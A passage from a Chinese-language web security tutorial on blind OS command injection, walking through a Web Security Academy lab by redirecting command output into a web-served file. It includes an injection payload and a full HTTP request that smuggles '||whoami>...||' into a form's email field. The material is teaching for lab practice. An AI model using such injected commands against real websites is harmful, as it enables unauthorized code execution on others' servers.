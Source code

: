 
### 盲注利用

#### 利用方式 1

虽然在命令注入的盲注类型中我们执行的结果并不会在回显中展示，但是我们可以通过重定向的方式将注入命令的输出重定向到 web 根目录中的文件中，随后再使用浏览器检索该文件，例如：如果应用程序从文件系统位置/var/www/static 提供静态资源，那么我们可以提交以下输入将命令执行的结果重定向到一个 txt 文件中去，随后可以使用浏览器来获取[https://vulnerable-website.com/whoami.txt检索文件并查看注入的命令的输出](https://vulnerable-website.com/whoami.txt%E6%A3%80%E7%B4%A2%E6%96%87%E4%BB%B6%E5%B9%B6%E6%9F%A5%E7%9C%8B%E6%B3%A8%E5%85%A5%E7%9A%84%E5%91%BD%E4%BB%A4%E7%9A%84%E8%BE%93%E5%87%BA)

```bash
& whoami > /var/www/static/whoami.txt &
```

在基于以上注入检测发现命令注入漏洞的点位后我们可以通过一下方式来将我们注入的命令执行结果进行重定向操作：

```bash
POST /feedback/submit HTTP/1.1
Host: 0a79006b04b6238284e5bb5600ae0066.web-security-academy.net
Connection: close
Content-Length: 118
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a79006b04b6238284e5bb5600ae0066.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a79006b04b6238284e5bb5600ae0066.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=5TpLf8MPquvWUsXWB1SApPbfyg3LWqKH

csrf=AjHRu5ULvg4evwywGajcQkAm1orbJUS1&name=QWQQ&email=||whoami>/var/www/images/output.txt||&subject=test&message=QWSGG
```

[![](assets/1708998334-e83c4c46f146ec077239dd10447dbf0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142231-17453bf4-d2dd-1.png)  
随后我们直接访问对应的静态资源文件获取命令执行的结果即可：
